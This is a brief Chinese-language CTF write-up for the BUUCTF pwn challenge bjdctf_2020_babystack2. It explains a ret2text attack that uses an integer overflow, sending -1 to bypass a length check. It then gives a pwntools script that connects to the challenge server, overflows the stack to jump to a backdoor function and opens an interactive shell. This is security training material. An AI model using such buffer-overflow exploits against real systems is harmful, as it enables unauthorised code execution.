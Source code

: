 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#bjdctf_2020_babystack2)

这是一道ret2text，有意思的是需要利用整数溢出漏洞，进行绕过，checksec一下

# exp

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('node5.buuoj.cn',29211)
#p=process('./bjdctf_2020_babystack2')
back_door=(0x400726+1)	#加一是因为跳过push rbp，要平衡栈
payload=flat(b'A'*0x18,p64(back_door))
p.sendlineafter('name:\n',b'-1')
p.sendlineafter('name?\n',payload)
p.interactive()
```

